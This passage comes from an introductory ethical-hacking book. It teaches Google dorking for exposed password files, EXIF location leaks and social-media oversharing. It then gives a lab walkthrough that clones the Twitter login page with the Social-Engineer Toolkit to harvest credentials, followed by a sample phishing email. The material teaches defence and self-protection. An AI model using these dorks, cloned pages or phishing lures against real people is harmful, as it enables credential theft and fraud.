*   在你在第 3 章中设置的 Kali Linux 虚拟机内进行研究。请记住：在虚拟机中执行的操作通常不会影响你的计算机，因此虚拟机提供了一层安全保障。如果你在虚拟机中打开受感染的文件，可以简单地删除并重新安装虚拟机。

*   在点击链接之前，检查链接是否已被病毒感染。即使在虚拟机中，这也是一个良好的安全措施。VirusTotal 是一个免费的在线工具，用于扫描网页、文件和链接中的恶意软件。我们将在下一节使用 VirusTotal 在打开前扫描一个密码文件。

*   确保你的计算机已安装杀毒软件，以防你意外点击虚拟机外部的链接，并在研究过程中使恶意软件进入你的计算机。

Google hacking 依赖于对 `search operators` 的精巧使用，这些符号或词语可以使你的搜索结果更加精确。你可能已经熟悉一些基本的搜索运算符。例如，在短语周围加上引号（“ ”）可以搜索确切的短语，而不是短语中的单个词。使用运算符 `AND` 和 `OR` 可以帮助你找到同时包含两个词（`3D` AND `printer`）或其中一个词（`coding` OR `cyber`）的页面。

其他搜索运算符不那么为人所知，但它们可以成为强大的黑客工具。例如，运算符 `ext:` 用于搜索特定的 `file extensions`，即不同类型文件的文件名后缀。示例包括用于 Microsoft Word 文档的 `docx`、用于纯文本的 `txt`、用于 PDF 文件的 `pdf`、用于 Microsoft Excel 电子表格的 `xlsx` 等等。运算符 `site:` 用于搜索特定网站上的结果；你可能会搜索 `site:nostarch.com` 或 `site:yourcompany.com`。

黑客知道如何使用这些运算符来查找特定类型的文件，这些文件可能包含更有价值的信息，例如特定类型视频监控摄像头的默认密码，该密码存储在摄像头用户手册的在线 PDF 版本中。为客户进行侦察的道德黑客可以使用这些定向搜索词，帮助公司删除无意中暴露在公众视野中的敏感数据，例如显示公司去年购买了哪个品牌视频监控摄像头的预算电子表格。

### 使用 ext: 运算符查找密码

互联网上充满了敏感信息，如人们的用户名和密码，如果你知道在哪里以及如何查找的话。让我们尝试使用 `ext:` 搜索运算符来查找包含密码的电子表格。

在你的虚拟机中，打开网络浏览器，访问 `https://www.google.com/`，并在搜索字段中输入 `ext:xls password`，如 图 4-2 所示。

请记住 `not` 点击任何结果，因为熟练的攻击者很容易在受感染的电子表格文件中隐藏病毒或勒索软件（或者让受感染的网页在搜索引擎看来像电子表格）。`Ransomware` 是一种讨厌的恶意软件，它会加密你的所有文件，并要求你支付赎金才能取回数据，所以要小心！

你可能会在搜索页面上直接找到几十个用户名和密码，并且可以添加其他搜索词来进一步定向搜索。例如，我在搜索中添加了 DCCC（民主国会竞选委员会的缩写），图 4-2 中的顶部结果显示了据称由试图干预 2016 年美国总统选举的黑客窃取的 2016 年美国选举活动密码。


图 4-2：输入 `ext:xls password` 可以找到充满用户名和密码的 Excel 电子表格。

一旦你找到了感兴趣的搜索结果，请按照以下步骤操作：

1.  复制其中一个文件的 URL：在 Google 结果中高亮显示链接地址，右键单击或 CONTROL\-click（在 Mac 上），然后选择 `Copy link address` 或 `Copy link location`。

2.  在新的浏览器标签页中打开 VirusTotal (`https://www.virustotal.com`/`)`，点击 `URL` 选项卡，并将复制的 URL 粘贴到搜索字段中，如 图 4-3 所示。

    

    图 4-3：在点击可疑网络链接之前，通过 VirusTotal 扫描它们进行检查。

3.  点击搜索图标（放大镜）来扫描链接。在 图 4-4 中，VirusTotal 已使用 60 多个不同的杀毒引擎扫描了密码电子表格文件，且没有发现任何感染迹象。


在这一点上，不道德的黑客会打开一个或多个电子表格，看看能否找到可用的登录名和密码信息。作为道德黑客，我们可以选择尊重他人的隐私，不打开该文件。或者，如果我们是代表客户进行搜索，可以检查该文件并告知他们，他们的信息可能已在网上泄露。

 

Figure 4-4: The password spreadsheet we selected appears safe to open.

再次尝试搜索，但这次输入 `ext:txt` 或 `ext:pdf` 来检查其他包含密码的文件类型。

现在尝试专门搜索你自己的信息。搜索你的用户名和单词 `password`，并添加 `ext:` 运算符来查找各种文件类型（例如，`bryson_payne AND password ext:xls`）。*永远不要在 Google 或任何其他搜索引擎中输入你的实际密码。*

如果你在网上发现自己的密码被公开，请立即更改。

### 使用 site: 运算符查找密码

你可以使用 `site:` 搜索运算符在特定网站上查找泄露的密码。例如，在 Figure 4-5 中，我在 Google 中输入了 `site:ung.edu password`，以查找我所在大学（北佐治亚大学）的任何学生或教职员工密码是否存储在我们的公共 Web 服务器上。这种情况发生的频率比你想象的要高——有时私有文件或文件夹会意外地存储在公共服务器上，或者教师或管理员可能会暂时上传一个密码文件供新用户使用，却忘记删除。

 

Figure 4-5: Use the `site:` search operator to search for results on a specific organization’s website.

如你所见，没有列出文本文件或电子表格，但底部的结果是一篇关于向新生分配默认密码的旧新闻文章。当这篇文章发表时，攻击者本可以利用默认密码信息来猜测成千上万名学生的初始密码。

你还可以将 `site:` 运算符与其他运算符结合使用。例如，`ext:pdf site:ung.edu bryson_payne AND password` 会搜索我所在大学网站上包含我的用户名和单词 `password` 的 PDF 文件。

这些只是你可以在 Google 中用来查找敏感信息的几个搜索运算符。多年来，其他黑客创建了一个 Google 技巧数据库，用于记录有用的搜索运算符组合。

### Google 技巧数据库

`Google Hacking Database` (`GHDB`) 是一个公开列表，包含数千个 Google 搜索运算符组合，可用于查找密码、连接到互联网的特定类型设备或设备、具有漏洞的特定 Web 应用程序等。

GHDB 是由 Hackers for Charity 的 Johnny Long 发起的项目；该数据库现在由 Offensive Security 维护，该团队也支持 Kali Linux 和其他黑客及安全工具。你可以在 [`www.exploit-db.com/google-hacking-database/`](https://www.exploit-db.com/google-hacking-database/) 找到 GHDB，或者在搜索引擎中搜索“Google Hacking Database”。

访问 [`www.exploit-db.com/google-hacking-database/`](https://www.exploit-db.com/google-hacking-database/) 上的 GHDB，并在搜索框中输入 `password`，如 Figure 4-6 所示。数据库将显示所有包含单词 `password` 的 `search queries`（运算符和要搜索的文本的组合）。

 

Figure 4-6: The Google Hacking Database password search queries

点击 GHDB 中的任何条目都将显示有关该特定搜索查询的信息，你甚至可以直接前往 Google 尝试该搜索。

黑客将 GHDB 上找到的高级搜索称为 `Google dorks`，将使用它们的过程称为 `dorking`。攻击者使用 dorking 不仅是为了查找用户名和密码的电子表格，还为了查找带有默认管理员密码的产品 PDF，或者查找带有 Web 界面的易受攻击设备，例如监控摄像头甚至楼宇恒温器控制，仅举几例。像 `intext:username ext:log` 这样的 Google dork 可以暴露可能包含数据库用户名和密码等有用信息的服务器日志。像这样的高级搜索技术可以为黑客节省大量时间。

### 道德黑客如何使用 Google

如果一家公司雇佣道德黑客来测试其安全性，黑客会将其侦察搜索集中在公司、其供应商和供应商、员工、客户等方面。如果黑客在侦察过程中发现密码或其他敏感信息，他们会通知公司，以便其锁定账户、让用户更改密码或采取其他必要措施。你在为本书进行侦察时发现的任何信息，都应该以同样的方式对待。

假设你发现了你办公室、你孩子学校或你朋友或家人账户的密码。首先，永远不要亲自尝试那些密码；那就像找到某人的钥匙并未经允许尝试打开那个人家门一样令人不安且不道德。道德黑客会向公司或学校的 IT 员工报告潜在的密码泄露，或者他们会告诉朋友或家人，他们的密码可能已被泄露，并且应立即更改任何使用该密码或类似密码的账户的密码。

## 社交媒体与过度分享的危险

除了 Google 搜索之外，黑客还有一个触手可及的、令人毛骨悚然的简单侦察工具：社交媒体。你可能会惊讶——甚至有点害怕——发现 Google 已经掌握了你多少信息。然而，你可能每天或每天多次通过社交媒体泄露更具体、更敏感的信息。

这里有一个你可以自己做并与朋友或家人分享的快速练习：花五分钟时间，在你最喜欢的社交媒体账号上对自己进行一次快速侦察任务。你能找出你住在哪里、你养了什么宠物（以及它们叫什么名字）、你在哪里工作，或者你的配偶和孩子的名字吗？你最近生日的帖子呢？根据帖子的日期和提到的年龄（例如，如果有人发布了“祝 29 岁生日快乐！”），攻击者能否算出你的准确出生日期和年份？你还能发现关于你经常去的地方（例如体育赛事）以及你与之共度时光的人的哪些信息？

发布关于你的工作、爱好、孩子、旅行、宠物或周末活动的信息，会向潜在攻击者泄露你的位置和兴趣。试图进入你账户的攻击者会尝试使用他们在网上找到的个人信息（例如宠物的名字、你的生日或你最喜欢的餐厅）来猜测或重置你的密码。更糟糕的是，如果你在还在外出度假时发布度假照片，任何能够访问你帖子的人都可能推断出你的家可能空无一人，因此入室盗窃的风险较低。

即使分享一张你的猫或狗的照片也可能很危险，因为图像文件本身可能会泄露你的位置，你将在下一节中了解这一点。

### 位置数据——社交媒体不言而喻的危险


位置数据会自动存储在大多数使用智能手机、平板电脑以及许多较新数码相机拍摄的图片中。`Location data`通常指的是`全球定位系统（GPS）`坐标，即你的手机或其他设备在地球上的精确纬度和经度。根据你所使用的社交媒体服务（以及你的设置），你可能会在发布的每张照片中定期泄露你的位置。在家中用智能手机拍摄的一张可爱猫咪或狗狗的照片，可能会泄露你居住的确切位置。

要查看图片中隐藏的位置数据和其他信息，我们将使用 Jeffrey’s Image Metadata Viewer（`http://exif.regex.info/`）。你可以上传图片文件，或输入在线图片的网址，以查看图片文件中是否存在位置数据或其他信息。

1. 访问 `https://www.nostarch.com/go-hck-yourself/` 并下载 `BrysonPayne-TEDx.jpg`，这是几年前我在关于儿童编程和网络安全的 TEDx 演讲中拍摄的我的照片。

2. 访问 `http://exif.regex.info/`，点击 `Choose file`，然后选择下载的图片文件。

3. 勾选 reCAPTCHA 框以确认你不是机器人，然后点击 `View Image Data`。图 4-7 显示了隐藏数据（称为 `image metadata`）。



图 4-7：图片元数据揭示了照片拍摄的时间、地点，甚至使用了哪部手机！

这张照片拍摄于 2018 年 4 月 8 日，纬度和经度为 34.530261N，83.986075W——即我进行演讲的礼堂的精确 GPS 坐标！舞台位于海拔 443 米（1,453 英尺）处，照片是用一部旧款 iPhone 6S 拍摄的。所有这些信息，以及更多内容，默认情况下都隐藏在你用智能手机拍摄的每张照片中，因此要小心在哪里以及如何分享你的照片。

一些社交媒体应用程序会故意发布你所在的位置。如果你曾经看到有人在酷炫的地点“签到”，这就是一个例子。但是，你智能手机上的许多其他应用程序，从地图应用到电子邮件和搜索引擎，也可能会追踪你的位置。定期检查你使用的所有应用程序的安全和/或隐私设置，看看是否可以关闭位置服务或仅在需要时使用，这是个好主意。

### 在社交媒体上保护自己

稍加谨慎很可能会保护你免于在网上分享过多内容。你还需要教育你的朋友、亲戚和同事——任何可能在群体中拍摄你的照片并将其发布到社交媒体，或说出你在特定时间的位置的人。每个人都需要理解在当今高度互联的世界中保持更多隐私的重要性。

以下是你可以采取的一些步骤，以保护你和你关心的人免受社交媒体过度分享的危险：

1. 分享前先思考。在发布照片或评论之前，停下来思考一下你是否需要立即（或根本不需要）分享它。至少等到回家后再吹嘘你精彩的假期。并记住，一条毫不经思考（或醉醺醺）的凌晨 2 点的社交媒体帖子可能会被打印出来、重新发布，或更糟。每条推文、帖子和快照都会成为你永久在线声誉的一部分。

2. 更改默认设置。大多数社交媒体应用程序默认设置为与太多人分享太多信息。进入应用程序或网站的安全或隐私设置，关闭位置数据（或位置服务），以及任何你不想分享的其他敏感信息。

3. 限制谁可以看到你的帖子。如果照片或评论透露了关于你日常活动、爱好或常去场所的过多信息，请仅与那些会喜欢该帖子的朋友私下分享。

4. 快速解决问题。报告身份盗窃（向当地警察和你的信用局报告）、欺诈（向你的银行和联邦贸易委员会报告，网址为 `https://www.ftc.gov/`）、其他犯罪（向联邦调查局报告，网址为 `https://www.ic3.gov/`），以及任何网络欺凌或骚扰（向当地当局报告）。

社交媒体是一个强大的连接工具，但它也是犯罪黑帽和道德白帽黑客进行侦察和信息收集的强大工具。不要过度分享。相反，要注意你的安全和隐私设置，明智地使用社交媒体，并且，如果有人利用社交媒体对付你，请立即向相关当局报告。

## 要点

在本章中，你了解了黑客用来收集关于你和你关心的人的信息的免费在线工具，例如搜索引擎和图片元数据查看器。高级搜索运算符可以定位特定的用户名和密码，这些信息要么被盗，要么被意外发布到网上。图片元数据查看器揭示了在线发布的图片中隐藏的敏感信息，包括照片拍摄地点的精确 GPS 坐标以及使用了哪种智能手机。

你了解了分享前先思考、注意你的安全和隐私设置、限制谁可以看到你的帖子以及快速报告欺诈和其他网络犯罪的重要性。作为智能的网络防御者，我们必须在便利性与安全性之间取得平衡，以保护我们自己以及我们关心的人和组织。

本章讨论的每种工具和技术都可以被道德黑客用来改善安全性并培训人们保护自己。但它们也可能被攻击者用来针对受害者。做好准备的第一步是意识到已经有哪些信息在外面。掌控你在网上分享的信息，你就已经领先于网络攻击者一步了。

# 5

社交工程和网络钓鱼攻击


在本章中，你将使用你的虚拟黑客实验室，学习攻击者访问受害者计算机和账户的最常见且最成功的方式之一：社交工程。

`Social engineering` 是指诱骗人们透露敏感或有价值的信息，例如密码、信用卡号码或医疗数据。研究人员估计，所有计算机攻击中有 94% 到 98% 都始于某种形式的社交工程。在电影中，黑客通常会做一些非常高级的事情来入侵网络，但在现实世界中，他们通常只是发送一封电子邮件，诱骗某人透露他们的用户名和密码。这种社交工程技术被称为 `phishing`。

在本章中，你将通过创建一个网络钓鱼网站并发送一封网络钓鱼电子邮件，了解社交工程的危险。你将看到攻击者多么容易诱骗人们透露他们的用户名和密码，以及如何保护自己免受网络钓鱼攻击。

## 社交工程如何运作

社交工程利用我们渴望社交、帮助他人以及成为群体一部分的人类本能，或者操纵我们的基本人类情感，如恐惧、好奇心或贪婪，诱使我们犯下安全错误或泄露敏感信息。同伴压力是一种社交工程形式：它说服某人做他们平时不会做的事情，因为“其他人”都在这样做，或者出于害怕错过的恐惧。同样，网络骗子使用社交工程来操纵我们，让我们在不考虑后果的情况下做出错误的决定。

在现实世界中，骗子和罪犯会通过社交工程手段进入安全建筑，他们会装扮成快递员或公用事业工人，或者他们会抱着一个大箱子“尾随”他人，请求某人替他们扶住门。一旦进入室内，他们会“窥视”他人输入密码时从肩膀上方观察。


在数字世界中，社会工程师使用电子邮件、社交媒体、广告、网站、短信、自动电话等技术。网络犯罪分子可以诱骗毫无戒心的用户点击恶意链接、登录虚假网站、接受虚假好友请求、输入信用卡信息、下载并运行恶意软件，或泄露个人信息。

最常见的社会工程攻击类型是网络钓鱼。在网络钓鱼攻击中，攻击者使用电子邮件诱骗你下载带有恶意软件的文件，或访问伪装成在线服务登录页面的恶意网站。如果你登录了虚假服务，攻击者就会获得你的用户名和密码。

为了了解攻击者设置网络钓鱼攻击有多容易，我们将使用 Kali Linux 虚拟机亲自设置一次。了解其运作方式将帮助你在点击之前识别出即使是最精巧的网络钓鱼邮件。

## 创建网络钓鱼网站

我们将首先创建一个看起来与 Twitter 登录页面一模一样的网络钓鱼网站。该网站将捕获并存储用户名和密码。

1. 启动 Kali Linux 虚拟机，点击屏幕左上角菜单面板上的 Kali 图标。打开 `13 - Social Engineering Tools` 文件夹，找到 `Social Engineering Toolkit (SET)` 应用程序，如 Figure 5-1 所示。该程序也称为 Social-Engineer Toolkit，使安全专业人员能够开发高级社会工程攻击来测试公司的安全性。这种道德黑客行为称为 `penetration testing`（简称 `pentesting`），因为你在测试是否能够渗透公司的防御。

    

    Figure 5-1: Find the `13 - Social Engineering Tools` 文件夹和 `SET` 应用程序。

2. 点击 SET 图标打开 Social Engineering Toolkit。如果提示输入密码，请输入 `kali`。（请注意，输入密码时可能看不到。）应用程序加载时，SET 会要求你接受使用条款，如 Figure 5-2 所示。输入 `Y` 表示同意仅将 SET 用于合法目的。

3. 你现在应该会看到类似 Listing 5-1 中所示的主 SET 菜单。

    ```
    Select from the menu: 1) Social-Engineering Attacks 2) Penetration Testing (Fast-Track) 3) Third Party Modules 4) Update the Social-Engineer Toolkit 5) Update SET configuration 6) Help, Credits, and About 99) Exit the Social-Engineer Toolkit
    set>
    ```

    Listing 5-1: The main SET menu

    

    Figure 5-2: To use SET, you must agree to the terms of service.

4. 输入 `1` 选择 Social-Engineering Attacks。这将带你进入 Attacks 菜单，如 Listing 5-2 所示。

    ```
       1) Spear-Phishing Attack Vectors 2) Website Attack Vectors 3) Infectious Media Generator 4) Create a Payload and Listener 5) Mass Mailer Attack --snip--
    ```

    Listing 5-2: The SET Attacks menu

5. 在 Attacks 菜单下，输入 `2` 选择 Website Attack Vectors。这将带你进入 Website Attack Vectors 菜单，如 Listing 5-3 所示。

    ```
       1) Java Applet Attack Method  2) Metasploit Browser Exploit Method 3) Credential Harvester Attack Method 4) Tabnabbing Attack Method 5) Web Jacking Attack Method --snip--
    ```

    Listing 5-3: The SET Website Attack Vectors menu

6. 输入 `3` 选择 Credential Harvester Attack Method。这将打开 Credential Harvester Attack 菜单，为我们提供几个选项，如 Listing 5-4 所示。

    ```
       1) Web Templates 2) Site Cloner 3) Custom Import
    ```

    Listing 5-4: The SET Credential Harvester Attack menu

7. 我们将使用第二个选项 `Site Cloner`，为网络钓鱼攻击制作真实网站的 `clone`（即精确副本）。这种网络钓鱼被称为 `credential harvesting`，因为其目的是收集人们的 `credentials`（即用户名和密码）。按 `2` 选择 `Site Cloner`，然后按 `ENTER`。

### 克隆登录页面

SET 的 `Site Cloner` 将帮助你设置几乎任何登录页面的克隆版本。它会下载显示现有登录页面所需的所有代码，例如社交媒体平台、银行或电子邮件服务的登录页面。正如我们在第 1 章使用浏览器的 Inspect 工具时所见，这些代码是公开可用的。`Site Cloner` 然后使用下载的代码创建页面的精确副本。剩下的就是找到一种方法，诱骗用户在克隆页面上输入用户名和密码。

按照以下步骤克隆 Twitter 登录页面。

1. 首先，`Site Cloner` 会询问将存储受害者用户名和密码的机器 IP 地址。默认情况下，提示显示你 Kali VM 的 IP 地址。在我的情况中，该地址为 `10.0.9.4`，如 SET 提示所示：

    ```
    set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.0.9.4]:
    ```

    如果你 Kali VM 的 IP 地址不同，请记下它，因为稍后需要用到。按 `ENTER` 继续。

2. 接下来，SET 应该会询问你要克隆的网站 URL：

    ```
    set:webattack> Enter the url to clone:
    ```

    为了成功进行凭据收集攻击，你需要克隆一个在同一屏幕上要求用户名和密码的登录页面。大多数在线服务（包括许多社交媒体网站）都符合此描述，但一些银行网站和电子邮件网站（包括 Gmail 和 Outlook）会在一个屏幕上要求用户名，在另一个屏幕上要求密码，以防止此类攻击。

    我们将克隆 Twitter 登录页面。在 SET 窗口中输入 `https://twitter.com/login`：

    ```
    set:webattack> Enter the url to clone: https://twitter.com/login
    ```

3. SET 应该会显示正在克隆网站。它可能会要求你再次按 `ENTER` 继续。如果 SET 要求你确认其他任何内容，请按 `Y` 或 `ENTER` 按要求操作。

4. 片刻之后，你将看到一条消息，确认 SET Credential Harvester Attack 正在运行：

    ```
    [*] The Social-Engineer Toolkit Credential Harvester Attack
    [*] Credential Harvester is running on port 80
    [*] Information will be displayed to you as it arrives below:
    ```

SET 能够在你的 Kali VM 上启动一个临时 Web 服务器，受害者可以访问该服务器。现在它正在等待受害者在网站上输入他们的信息。

### 让我们收集一些凭据！

让我们测试我们的网络钓鱼网站，看看是否有效。在保持终端窗口打开的同时，点击菜单面板上的 Kali 图标，转到 `Favorites` ▶ `Web Browser`。浏览器打开后，在地址栏中输入 `localhost`。你应该会看到一个几乎与 Twitter 主页一模一样的副本，如 Figure 5-3 所示。（网页会随时间变化，浏览器也是如此，因此你看到的内容可能略有不同。）判断页面不是真实的唯一方法是查看地址栏。



Figure 5-3: The cloned Twitter home page looks identical to the real one.

首先，你应该看到你输入的地址（`localhost`）而不是真实地址（`https://twitter.com`）。其次，地址栏旁边没有安全站点锁图标，因此浏览器正在告诉你该页面不安全。

既然我们知道克隆的网站看起来与真实网站一样，让我们看看它是否能捕获登录详细信息。点击 `Log in` 转到登录页面。输入一个虚构的用户名和密码，然后再次点击 `Log in`。

我输入了用户名 `GeorgeJetson` 和密码 `Jane!!!`，如 Figure 5-4 所示。




Figure 5-4: 将虚假信息输入到你克隆的 SET 网站中；在钓鱼网站上永远不要输入你的真实用户名和密码。

Once you submit your fake login credentials, SET will redirect your browser to the real Twitter website, [`https://twitter.com/`](https://twitter.com/). You can tell it’s the real site from the address bar, where you’ll see the lock icon. SET takes the victim to the real login page to make them think that they mistyped their login information. This time, they log in to the real site without ever realizing that an attacker stole their credentials.

Now open the terminal window running SET. If your phishing website worked correctly, you’ll see a screen full of web form data that was submitted. Scroll up if needed, and you’ll see the username and password you entered:

```
[*] WE GOT A HIT! Printing the output:
...
POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=GeorgeJetson
POSSIBLE PASSWORD FIELD FOUND: session[password]=Jane!!!
```

If SET didn’t retrieve the login information, fill out the cloned form again. If you still can’t find the username and password you entered, close SET and try cloning a different site.

As long as SET is running, you can submit usernames and passwords to your form by going to your Kali IP address in any browser that has access to your Kali VM’s network. That means you can start up your Windows VM, pretend you’re a phishing victim surfing to your Kali VM’s IP address (`10.0.9.4` or similar), and enter a username and password into the fake page.

### Creating a Phishing Email

The final step in a phishing attack is to create and send a phishing email with a link to your phishing site’s IP address. Remember, SET’s Site Cloner is running a fake version of the Twitter login page on your Kali VM, so it uses your Kali VM’s IP address. In your Kali or Windows VM, log in to your email account and compose a new email. Your phishing email can be as simple as this:

> `Subject: Unusual account activity`

> 

> `Message: Someone attempted to log in to your Twitter account from Budapest, Hungary. If this wasn't you, please log in to your account and check your Security settings: http://10.0.9.4.`

Email the message to yourself and open it on either your Kali or Windows 10 VM while SET is running. Clicking the link should take you to your cloned phishing site!

Most people, however, probably wouldn’t click the link in the email. The email doesn’t look like a regular message from Twitter, and the link shows an IP address rather than the Twitter URL. To create a more convincing phishing scam, an attacker might instead copy a real email from Twitter, one that uses the Twitter logo and style, and paste it into a new message. Then they would change the text and links to try to convince people to click through to the cloned site. Figure 5-5 shows an example I cooked up.

 

Figure 5-5: 我通过修改文本和超链接，将一封来自 Twitter 的真实电子邮件转换成了钓鱼电子邮件。

